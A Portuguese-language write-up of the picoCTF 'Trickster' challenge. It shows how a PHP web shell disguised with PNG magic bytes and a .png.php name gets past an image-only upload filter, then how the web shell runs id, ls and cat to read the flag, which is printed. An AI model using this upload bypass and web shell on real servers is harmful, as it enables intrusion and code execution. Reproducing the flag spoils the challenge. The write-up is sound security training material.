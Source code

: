 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/1ad8aadb-93a2-428b-b7a2-7ae33bc847cc)

Criamos um arquivo yo.php com uma simples payload PHP ```(<?=\$_GET[0]`?>`)```.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

No final do arquivo, adicionamos a payload PHP ```(<?=\$_GET[0]`?>`)```.
Renomeamos para yo.png.php e fizemos o upload novamente.

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

```https
http://atlas.picoctf.net:62573/uploads/yo.png.php
```

Testamos a execução de código com ?0=id, confirmando o acesso

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id
```

Listamos arquivos no diretório

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..
```

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt
```

> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}` 


4
![image](https://github.com/user-attachments/assets/18837203-98d9-44d0-aac9-3c0bf62e7a3a)

5
![image](https://github.com/user-attachments/assets/23009445-c52c-47c7-a126-8084b6efd24d)


8
![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

9
![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)
 
